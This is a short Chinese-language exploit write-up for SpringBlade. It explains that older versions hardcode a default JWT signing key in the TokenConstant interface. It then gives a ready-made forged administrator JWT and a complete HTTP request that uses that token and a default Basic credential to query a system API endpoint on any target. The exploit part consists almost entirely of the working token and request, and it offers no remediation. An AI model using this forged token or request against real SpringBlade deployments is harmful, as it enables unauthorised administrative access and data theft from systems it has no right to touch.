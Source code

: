 ## 审计

低版本存在jwt密钥为硬编码，下载源码进行代码审计

在org.springblade.core.launch.constant.TokenConstant接口处发现83位默认jwt密钥

![image-20241210091644743](./image/image-20241210091644743.png)

## 利用

伪造token：

```
eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIn0.JOsWrAkblh7PFJFrr_cmuOQMrzStfwvee61sSVH4o6p401oAHpP284VkL0CyKnUX1MT8KnrCAOPRYBRbmfcdTg
```



```http
GET /api/blade-system/api/list?size=100&current=1 HTTP/1.1
Host: {target}
Connection: keep-alive
Authorization: Basic c2FiZXI6c2FiZXJfc2VjcmV0
blade-auth: bearer eyJhbGciOiJIUzUxMiIsInR5cCI6IkpXVCJ9.eyJyb2xlX25hbWUiOiJhZG1pbmlzdHJhdG9yIn0.JOsWrAkblh7PFJFrr_cmuOQMrzStfwvee61sSVH4o6p401oAHpP284VkL0CyKnUX1MT8KnrCAOPRYBRbmfcdTg
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E; .NET CLR 2.0.50727; .NET CLR 3.0.30729; .NET CLR 3.5.30729; rv:11.0) like Gecko
Accept: application/json, text/plain, */*
User-Type: web_account
Tenant-Id: 000000
Accept-Encoding: gzip, deflate, br, zstd


```

